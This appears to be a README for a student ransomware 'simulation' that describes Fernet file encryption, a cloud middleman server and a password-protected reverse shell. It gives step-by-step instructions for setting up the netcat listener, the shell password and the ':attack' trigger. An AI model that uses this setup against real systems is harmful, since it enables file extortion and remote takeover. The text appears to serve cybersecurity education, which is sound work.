# School Project: Basic Ransomware Simulation

## Project Overview

This project consists of few Python scripts that work together to simulate the behavior of real-life ransomware:

### `notaransomware.py`:

This is the main ransomware code. It contains functions to find and encrypt files using a key generated from the `cryptography.fernet` Python module. Before encryption, the script establishes a connection with the middleman server to retrieve the LAN IP of the target device to set up the backdoor (more on the backdoor later).

### `decrypt.py`:

This file contains the code to decrypt files that have been encrypted by the ransomware. The script retrieves the encryption key from "thekey.key" and applies it to the encrypted files, restoring them to their original form.

### `middleserver.py`:

This script acts as the middleman server. This script manages connections for two different sessions:

- Setting the local IP for the `notaransomware.py` script to give a reverse shell to (password protected).

- Providing the said IP to our ransomware.

That is to say that the middleman script will allow a connection from the attackers machine in order for said machine to advertise its local IP and another session, on the victim machine, for the ransomware to fetch said LAN IP.
It does not have to be a local IP though, any IP will work but LAN is more secure.

## Why a backdoor and why a middleman?

We have the backdoor, or reverse shell, in order for the attacker to examine the target in order to find the best files in which to hold ransom. Once the attacker has found the files to encrypt, he executes a command within the reverse shell (running within the `notaransomware.py` script) which will finalize the attack.

We have the middle man because the attackers IP might change but the middleman servers IP can stay constant.

## :warning: Word of warning :warning:

USE THIS PROJECT AT YOUR OWN RISK, THE PROJECT IS DESIGNED TO BE AS REAL TO REAL LIFE RANSOMWARE ATTACK AS IT CAN BE SO YOUR DATA IS YOUR RESPONSIBILITY.

I **ONLY** RECOMMEND RUNNING THESE SCRIPTS INSIDE A VIRTUAL MACHINE!!!

**NO ONE BUT YOU IS RESPONSIBLE FOR YOUR ACTIONS!**

## How To Run

To correctly execute these programs, you will need Python3 venv (virtual environment) and the `cryptography` package installed inside said venv.

To create a venv, first, remember that all these scripts are designed to work on windows.

Then open the microsoft store and download windows terminal for ease of use.

Next install git for windows in a new powershell admin window if you haven't already:

```ps1
winget install --id Git.Git -e --source winget
```

Once git is installed, open a new git bash windows inside windows terminal and type the following:

```bash
python3
```

This should open a window in the microsoft store where you can download python.
If you already have it installed however, it will launch the python interpreter.
To exit the interpreter:

```py
exit()
```

Next, inside the git bash session and inside the root directory of the project, create the venv:

```bash
python -m venv venv
```

We must source, again, inside the git bash session and in the root of the project, the venv activation file before we can work with the project:

```bash
source ./venv/Scripts/activate
```

Now, once we are inside a venv session, we can finally install the dependencies:

```bash
pip install cryptography
```

Finally, to start the simulation:

- On your middleman server, mines in the cloud, launch the middleman server with the command `python middleserver.py`.

> Of course, to do this, one must have the `middleserver.py` on said cloud server.

You will see the server spring to life, printing basic messages to let you know whats going on.

- On the attack machine, preferably inside the same LAN as the victim computer:

1. [Make sure you have netcat installed](https://nmap.org/download), ncat is bundle with nmap...
2. Assuming the attack machine is windows, run `ncat <ip> 55036` where `<ip>` is the ipv4 address of your middleman server.

This will connect to the middleman server but, assuming no errors show up, you will see no output.
This is by design but all you have to do is enter in the password and hit enter:

```
joelwiscool
```

Once you do this, you should see the following output:

```
$ ncat 175.45.180.103 55036
joelwiscool

[type :help for help]->
```

To set the LAN ip of the attack machine so the middleman server can advertise it to the victim computer:

```
$ ncat 175.45.180.103 55036
joelwiscool

[type :help for help]-> :ip 127.0.0.1
```

As you see, for my testing purposes, i am using the same machine for the victim and attack but you may change `127.0.0.1` to any IP you see fit.

3. Next, still on the attack machine remember, we must first exit out of the previous netcat session in which we set the LAN IP for our ransomware by hitting CTRL+c thats control and the letter c at the same time. After exiting the previous netcat session, open a new one, this new netcat session will be where our reverse shell appears:

```bash
ncat -lvnp 55038
```

This will instruct netcat to listen (`-l`), output verbosely (`-v`), idk (`-n`), and `-p` specifies the port.

You will use this netcat session once the ransomware opens a backdoor for us.

- Next, on your victim computer, run the ransomware with the command `python notaransomware.py [-m <ip>]` where ip is th ipv4 address of your middleman server.

The script immediately try connecting to the middleman server, if it fails to connect, it will retry and retry again.

Once it has connected to the middleman server, it will ask the middleman server for the attackers ip.
Once received the attackers IP, the ransomware script will open a backdoor to the attacker.

The attacker can then go on looking for some juicy files within the system to encrypt (your job).
Once you found your juicy files, run `:attack` inside the backdoor (again, the netcat seesion).

4. If you want to decrypt files, run `python decrypt.py`

Ensure the scripts run on machines within the same network.

Remember to be responsible when running these scripts! Do not attempt to run the ransomware on any computer to which you do not have explicit permission.

## Understanding the Code

Take the time to go through the Python scripts and understand how they work together. This can be very beneficial in improving your understanding of real-world cyber threats and how to protect yourself (or a network you manage) from them.

Ransomware is an unfortunate reality of the modern world, and understanding how it works is an important part of any cybersecurity education. This project is a simplified example of a real-world ransomware attack, but the concepts here – secure keys, file encryption, network communication – are directly applicable to advanced threats. Be sure to read and understand the comments in the code, as they are there to help you understand what's happening!

## Contributing

This being a school project, collaboration is welcomed! If you have any ideas on how to improve the simulation or the readability of the code, don't hesitate to make changes and submit a pull request.
